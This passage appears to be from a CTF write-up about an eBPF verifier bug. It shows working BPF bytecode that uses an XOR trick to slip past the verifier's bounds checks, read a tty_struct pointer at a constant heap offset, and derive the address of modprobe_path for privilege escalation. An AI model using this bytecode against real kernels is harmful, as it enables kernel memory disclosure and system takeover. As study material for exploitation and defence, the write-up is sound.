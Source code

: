 ### Leaking Kernel Address

After some investigation, I found that the `BPF_MAP_TYPE_ARRAY` buffer is probably stored on heap. Therefore, the idea is to spray `tty_struct`, which contains a kernel address at `+0x18` offset, and read that field to get kernel address. However, after some trial, I found that it is hard to allocate `tty_struct` adjacent to the `BPF_MAP_TYPE_ARRAY` buffer; nonetheless, I also found that although `tty_struct` is quite far from `BPF_MAP_TYPE_ARRAY` buffer, the offset from the buffer to `tty_struct` is quite constant: `0x21ef0`. Therefore, we can just add this constant offset to buffer address and read the `+0x18` field to leak kernel address. However, this is not 100% stable and need some brute-force to make this assumption true.

The bytecode for leaking is shown below:

```c
struct bpf_insn insns[]={
	BPF_MOV64_IMM(BPF_REG_0, 0),
	BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4), /* *(u32 *)(fp - 4) = r0 */
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4), /* r2 = fp - 4 */
	BPF_LD_MAP_FD(BPF_REG_1, EXP_MAP_FD),
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
	BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 11+1),

	BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),
	BPF_MOV64_REG(BPF_REG_3, BPF_REG_0),
	BPF_ALU64_IMM(BPF_XOR, BPF_REG_2, 0), // convert r2, r1 to scalar
	BPF_ALU64_IMM(BPF_XOR, BPF_REG_1, 0),
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0x21ef0+0x18),
	BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_2), // r0 = dst ^ src
	BPF_ALU64_REG(BPF_XOR, BPF_REG_1, BPF_REG_0), // r1 = src ^ dst ^ src = dst
	BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_1, 0), // r2 = [dst] = kernel940
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0x451200), // r2 = &modprobe
	BPF_STX_MEM(BPF_DW, BPF_REG_3, BPF_REG_2, 0), // store and leak modprobe

	BPF_JMP_IMM(BPF_JMP, BPF_REG_0, 0, 1),
	BPF_MOV64_IMM(BPF_REG_0, 0), /* r0 = 0 */
	BPF_EXIT_INSN(),
};
```

There are also some points to note: 

1. We need to add some constant to register containing buffer address, but cannot use that register to load memory data directly later; this is because it seems that verifier can detect the out-of-bound access if we do this; so we need to use `xor` magic to indirectly make a `PTR_TO_MAP_VALUE` register pointing to `tty_struct`.
2. One weird thing is, even if we don't use `BPF_XOR`, we can still somewhat leak the address of buffer; I am not sure why this happens.
3. You may ask why I only leak the kernel address in this step, instead of performing the whole exploitation that rewrites `modprobe_path` using arbitrary write; the problem is if operand register of `BPF_XOR` originates from load operation of `PTR_TO_MAP_VALUE` register, second `BPF_XOR` cannot convert the register back to `PTR_TO_MAP_VALUE` type. I would guess the reason that patch is added to `adjust_scalar_min_max_vals`, which, according to its name, is used to analyze range of a scalar; however, verifier cannot decide range of value loaded from `BPF_MAP_TYPE_ARRAY` memory, so this function will possibly not be called and the patch that converts scalar back to `PTR_TO_MAP_VALUE` is not triggered.
4. It seems that sometimes if we apply `BPF_XOR` to a register for more than 2 times, the kernel will crash when loading the bytecode; I am not sure why this happens either.
